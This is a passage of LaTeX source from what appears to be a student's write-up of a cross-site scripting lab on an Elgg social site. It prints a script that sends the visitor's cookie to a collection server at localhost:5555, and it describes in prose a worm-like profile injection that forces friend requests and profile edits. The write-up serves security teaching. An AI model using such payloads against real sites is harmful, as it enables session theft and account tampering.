 \documentclass[12pt,letterpaper]{article}
\begin{document}
		\begin{lstlisting}[caption={Code to send the current user's cookie to an arbitrary server.}]
<script type="text/javascript">
  document.write('<img src="http://localhost:5555?c=' + document.cookie +  '">');
</script>		
		\end{lstlisting}
	
	\section*{Task 4}
		By injecting the following code into Samy's ``About me'' section, we can cause any logged in user who visits Samy's page to become friends with Samy.
		
		
		
		\subsection*{Questions}
			\begin{enumerate}
				\item
					These tokens are used to ensure that the ``add friend'' request actually came from the Elgg site. This prevents arbitrary actors from making ``add friend'' requests while only knowing the person's ID.
				\item
					Client side validation cannot stop this attack. We could simply examine what a successful request that updates the ``About me'' section looks like and duplicate it using our malicious payload.
			\end{enumerate}
		
	\section*{Task 5}
		Using the basic framework from the previous task, we can edit the currently authenticated user's profile. We only have to pull in a few more JavaScript variables, such as the user's GUID, and change the request URL and method.
	
		\begin{figure}[h!]
			\includegraphics[width=\linewidth]{task-5-profile-edit}
			\caption{Alice's profile gets changed after viewing Samy's profile.}
		\end{figure}
	
\end{document}
